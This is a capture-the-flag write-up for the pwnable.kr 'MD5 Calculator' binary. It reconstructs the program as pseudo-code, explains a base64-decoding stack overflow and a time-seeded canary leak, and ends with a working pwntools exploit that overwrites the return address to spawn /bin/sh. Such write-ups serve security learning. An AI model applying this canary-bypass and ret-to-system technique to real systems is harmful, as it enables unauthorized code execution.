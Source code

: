 #  MD5 Calculator

I dont have `IDA` pro, which makes me really sad.

Lets dive into `process_hash`.

After a long session of `IDA`ing, I figured out that the code looks something like this:

`process_hash` psuedo-code:
```c
char g_buf[1024]; 

int32_t process_hash() {
    char arr[512] = {0};
    fflush(stdin);
    
    memset(g_buf, 0, 1024);
    fgets(stdin, 1024, g_buf);

    memset(arr, 0, 512); /* might be uneeded */

    int length = Base64Decode(arr, g_buf);

    char *md5str = calc_md5(arr, length);
    printf("MD5(data) : %s\n", md5str);
    free(md5str);

    stack_check(); /* This nasty guy! */
}
```

`Base64Decode` psuedo-code:
```c
int32_t Base64Decode(char *dest, char* src) {
    int32_t length = CalcDecodeLength(src);
    FILE *src_stream = fmemopen(src, strlen(src), "r");
    BIO *b64 = BIO_new(BIO_f_base64());
    BIO *bio = BIO_new_fp(src_stream, 0);
    
    bio = BIO_push(b64, bio); /* Is the assignment here right? */ 
    BIO_set_flags(bio, 0x100);
    int amount_read = BIO_read(bio, dest, strlen(src));
    dest[amount_read] = '\0';
    BIO_free_all(bio);
    fclose(src_stream)
    return length;
}
```

`CalcDecodeLength` psuedo-code:
```c
int32_t CalcDecodeLength(char *encoded) {
    int32_t len = strlen(encoded);
    int32_t padding = 0;

    if('=' == encoded[len - 1]) {
        padding = 1;
        if('=' == endcoded[len - 2]) {
            padding = 2;
        }
    }

    /* All FPU registers are 80bit wide */
    float80_t decode_len = 0.75 * (float80_t)len - (float80_t)padding;
    return (int32_t)decode_len;
}
```

`calc_md5` psuedo-code:
```c
int32_t calc_md5(char *arr, int len) {
    char digest[16];
    char *arr_view = arr;
    MD5_CTX md5ctx;
    char *ret_buf = malloc(33);


    while(len > 0) {
        /* Process block by block */
        if(len <= 512) {
            MD5_Update(md5ctx, arr_view, length);
        }
        else {
            MD5_Update(md5ctx, arr_view, 512);
        }

        length -= 512;
        arr_view += 512;
    }

    MD5_Final(&digest, &md5ctx);
    
    for(int i = 0; i < 16; ++i) {
        snprintf(ret_buf + 2*i, 32, "%02x", digest[i]);
    }

    return ret_buf;
}
```

Whats interesting here is that a decoding of a `1024` bytes long `base64` encoded buffer can be about `1024*0.75 == 768` bytes long, which is way more than the `512` bytes long array used to hold the result.

But, we have a stack canary. There are a few possible ways to attack this problem, when the easiest one is to look for an information leak.

I initially wanted to ignore this function, but I guess its there for a reason:

```c
int32_t my_hash() {
    int32_t arr[8];
    int32_t *p = arr;
    int32_t ret = 0;

    for(int32_t i = 0; i < 8; ++i) {
        arr[i] = rand();
    }

    ret += (arr[1] + arr[5]);
    ret += (arr[2] - arr[3]);
    ret += (arr[7] + arr[8]); /* ??? */
    ret += (arr[4] - arr[6])
    
    return ret;
}
```

Wtf? There seems to be an access to `arr[8]`, but the array is only `32` bytes long... which means this is the canary! We got the information leak we needed.

But theres a catch. `rand` is seeded with `time(NULL)` on the `pwnable.kr` machine, so to predict its output, we need to sit on that machine, and be able to process the hash in less than a second (since `time` is precise to the second).

From playing with `gdb`, I get that to overrite the saved `eip` in `process_hash`, I need an offset of `528` bytes, and then the new address.

Now's a good time to try the new trick I've learnt:

```bash
fd@prowl:/tmp/dir$ pwn checksec hash
[*] '/tmp/dir/hash'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Well, as we can see, `NX` is enabled, so we cant just `ret` to our shellcode. Unfortunate. But atleast theres no `pie`, so we can use constant addresses.

Digging in a bit deeper, we see that we can call `system`, which is at `0x8048880`, which we can direct the flow to. We just need to make sure its called with `/bin/sh`, so we can get a shell, but thats no problem, since we can just put it on our global buffer!

So we have something along these lines (but we need to make sure we run it from the `pwnable.kr` server):

For computing the canary, we have the `get_canary` snippet:
```c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

int main(int argc, char const *argv[])
{
    srand(time(NULL));

    if(argc < 2) {
        return 1;
    }

    int captcha = atoi(argv[1]);
    int canary;
    int arr[8];

    for(int i = 0; i < 8; ++i) {
        arr[i] = rand();
    }

    canary = captcha;
    canary -= (arr[1] + arr[5]);
    canary -= (arr[2] - arr[3]);
    canary -= arr[7];
    canary -= (arr[4] - arr[6]);

    printf("%x\n", canary);
    return 0;
}
```

And for the actual exploitation:
```python
from pwn import *

SYSTEM = 0x8048880
G_ENCODED_ADDR = 0x0804b0e0
ENCODED_PAYLOAD_LEN = 720

conn = remote('localhost', 9002)

conn.recvuntil(' : ')
captcha = conn.readline().strip()

print '[+] captcha: {}'.format(captcha)

proc = process(['./get_canary', captcha])

canary = int(proc.readall().strip(), 16)

print '[+] canary: {}'.format(canary)

conn.sendline(captcha)
conn.recvuntil('paste me!\n')

payload = b64e('A'*512 + p32(canary) + 'A'*12 + p32(SYSTEM) + "A"*4 + p32(G_ENCODED_ADDR + ENCODED_PAYLOAD_LEN)) + '/bin/sh\x00'
print payload

conn.sendline(payload)

conn.interactive()
```

And thats how we do it.
